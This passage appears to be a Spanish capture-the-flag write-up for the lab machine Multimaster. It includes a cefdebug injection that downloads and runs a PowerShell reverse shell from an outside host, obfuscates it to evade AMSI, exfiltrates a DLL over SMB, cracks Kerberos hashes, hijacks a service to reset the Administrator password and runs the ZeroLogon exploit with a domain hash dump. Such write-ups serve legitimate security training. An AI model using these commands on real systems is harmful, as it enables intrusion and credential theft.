

[Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/tokyoneon/Chimera/refs/heads/master/shells/Invoke-PowerShellTcp.ps1)

```powershell
.\cefdebug.exe --url ws://127.0.0.1:22007/55a9c205-f376-4be7-a2fb-70d117d5bfe9 --code "proc 
ess.mainModule.require('child_process').exec('iex (iwr http://10.10.14.20/Invoke-PowerShellTcp.ps1 -UseBasicParsing)')"
```

Probablemente se encuentre el AV que hace que no pueda descargar el archivo, intentare cambiando algunas variables dentro del archivo `Invoke-PowerShellTcp.ps1` para poder evitar que nos detecte el AMSI. Eliminamos comentarios y cambiamos el nombre de la funcion "Invoke-PowerShellTCP" a "psrs".

```powershell
:%s/Invoke-PowerShellTcp/psrs
```

Para saber si aun con los cambios funciona el script "Invoke-PowerShellTcp.ps1" podemos ejecutar solo el comando `iex (New-Object Net.WebClient).downloadString('http://10.10.14.20/Invoke-PowerShellTcp.ps1')` en la maquina de tushikikamoto, si ganamos una shell es que el comando y el archivo funcionan correctamente.

Pero sige sin darme una shell, para que sea menos detectable por el AMSI, vamos a codificar en Base64 de Windows el comando.

```zsh
echo -n "iex (New-Object Net.WebClient).downloadString('http://10.10.14.20/Invoke-PowerShellTcp.ps1')" | iconv -t utf-16le | base64 -w 0; echo
```

> Si llegas a tener problemas a veces tienes que volver a ejecutar el `.\cefdebug` para cambiar el url (cef debug)

```powershell
.\cefdebug.exe --url "ws://127.0.0.1:16523/7cf4e24c-fcdf-4233-899a-8688d59d6994" --code "process.mainModule.require('child_process').exec('powershell -enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAwAC8ASQBuAHYAbwBrAGUALQBQAG8AdwBlAHIAUwBoAGUAbABsAFQAYwBwAC4AcABzADEAJwApAA==')"
```



Vemos que el usuario cyork es el que esta ejecutando el code y tambien vemos que es parte del grupo `DEVELOPERS`



## Priv: Lateral Movement - cyork -> sbauer

Como somos parte del grupo Developers, probablemente tendriamos acceso al directorio inetpub, recordemos que se utiliza para almacernar archivos relacionados con IIS, el servidor de web de Microsoft.

`inetpub`



Encontramos un archivo .dll muy peculiar con el nombre de la maquina.

```powershell
-a----         1/9/2020   4:13 AM          13824 MultimasterAPI.dll 
```

### File Transfer via Smb

- kali
```zsh
home/kali/Documents/HTB/APT/IOXIDResolver/.env/bin/smbserver.py smbFolder $(pwd) -smb2support
```

- victim

```powershell
copy MultimasterAPI.dll \\10.10.14.20\smbFolder
```

Con `Strings` podemos extraer cadenas de caracteres imprimibles de archivos binarios o de otro tipo de archivos que no son de texto plano.

```zsh
strings MultimasterAPI.dll
```





```zsh
strings -e b MultimasterAPI.dll
```



```dtd
sbauer:D3veL0pM3nT!
```

>Se puede lograr el mismo resultado haciendo debug el binario con **dnSpy**.

### Password Spraying



#### Validate Credentials

```zsh
nxc winrm 10.10.10.179 -u sbauer -p 'D3veL0pM3nT!'
```


### Evil-WinRM | sbauer




`net user sbauer`



En este punto ya no obtendriamos nada interesante debido que el usuario sbauer no se encuentra en ningun otro grupo interesante.
## BloodHound

Ahora toca enumerar el dominio entero a traves de la herramienta `bloodhound-python`.
El comando nos creara un archivo zip que contendra la informacion del dominio, lo que nos mostrara con bloodhound posibles vectores de ataque para escalar privilegios.

```zsh
bloodhound-python -d MEGACORP.LOCAL -u sbauer -p 'D3veL0pM3nT!' -ns 10.10.10.179 --zip -c All
```

El usuario sbauer dispone de privilegios `GenericWrite` sobre el usuario jorden



## Priv: Lateral Movement - sbauer - > jorden
### DACL (Mis) Configurations

- Targeted Kerberoast

#### Method 1

>`sudo ntpdate 10.10.10.179`

```zsh
python3 targetedKerberoast.py -u "sbauer" -p 'D3veL0pM3nT!' -d "MEGACORP.LOCAL" --dc-ip 10.10.10.179
```



#### Method 2 

[bloodyAD - Wiki](https://github.com/CravateRouge/bloodyAD/wiki/User-Guide)

```zsh
bloodyAD --host 10.10.10.179 -d megacorp.local -u 'sbauer' -p 'D3veL0pM3nT!' add uac 'jorden' -f DONT_REQ_PREAUTH
```

```zsh
impacket-GetNPUsers MEGACORP.LOCAL/ -no-pass -usersfile users
```



### Crack Hash

```zsh
john hashJorden --wordlist=/usr/share/wordlists/rockyou.txt
```



```dtd
rainforest786
```

### Validate Credentials

```zsh
nxc winrm 10.10.10.179 -u jorden -p 'rainforest786'
```





Ahora tenemos un usuario (**jorden**) en el grupo `SERVER OPERATOR`

[windows-privilege-escalation-server-operator-group](https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/)



[syntax-security_groups](https://ss64.com/nt/syntax-security_groups.html)

Usaremos la herramienta ``sc.exe`` que se utiliza para administrar servicios, como inciar, detener, pausar, reanudar y configurar servicios.

```powershell
sc.exe config browser binPath="C:\Windows\system32\cmd.exe /c net user Administrator P@ssword123!"
```

Ahora paramos el servicio de browser `sc.exe stop browser` y lo volvemos a inciar para que los ajustes que configuramos surtan efecto `sc.exe start browser`.

Validamos que el cambio de contraseña se haya hecho, validando las credenciales.



```zsh
evil-winrm -i 10.10.10.179 -u 'Administrator' -p 'P@ssword123!'
```



## ZeroLogon - CVE-2020-1472

[CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

```zsh
> python3 cve-2020-1472-exploit.py MULTIMASTER 10.10.10.179
Performing authentication attempts...
======================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!

> secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
Impacket v0.9.22.dev1+20200915.115225.78e8c8e4 - Copyright 2020 SecureAuth Corporation
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                               
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:69cbf4a9b7415c9e1caf93d51d971be0:::         
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                              
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:06e3ae564999dbad74e576cdf0f717d3:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
MEGACORP.LOCAL\svc-nas:1103:aad3b435b51404eeaad3b435b51404ee:fe90dcf97ce6511a65151881708d6027:::
...[snip]...

```